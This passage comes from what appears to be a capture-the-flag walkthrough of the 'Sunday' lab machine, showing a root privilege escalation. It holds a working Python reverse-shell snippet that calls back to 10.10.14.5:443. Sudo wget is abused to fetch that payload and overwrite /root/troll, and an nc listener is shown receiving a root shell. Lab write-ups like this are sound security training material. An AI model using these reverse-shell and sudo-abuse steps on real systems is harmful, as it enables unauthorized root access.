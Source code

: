     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.5",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);



Serve it with SimpleHTTPServer, and request `shell.py` with wget, using
the `-O` option, which will allow us to specify a file to write the wget
output to, and it will overwrite that file if it already exists:



    sammy@sunday:~$ sudo wget http://10.10.14.5/shell.py -O /root/troll
    --01:07:04--  http://10.10.14.5/shell.py
               => `/root/troll'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 246 [text/plain]

    100%[==========================================================================================================================================================================================================>] 246           --.--K/s

    01:07:04 (25.59 MB/s) - `/root/troll' saved [246/246]





    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.76 - - [27/Sep/2018 21:11:58] "GET /shell.py HTTP/1.0" 200 -



Run it with sunny:



    sunny@sunday:~$ sudo /root/troll



And get callback:



    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 56164
    root@sunday:~# id
    uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)



This is a bit trickier to pull off than it one might think at first, if
you aren't quick *and* lucky. That's because of the `overwrite` script
resetting `troll` to it's original self every 5 seconds. Check out the
[Beyond Root](#overwrite) section where I'll look at detecting this. But
for the sake of making it work, have the windows close together and run
`wget` as sammy immediately followed by `troll` as sunny.
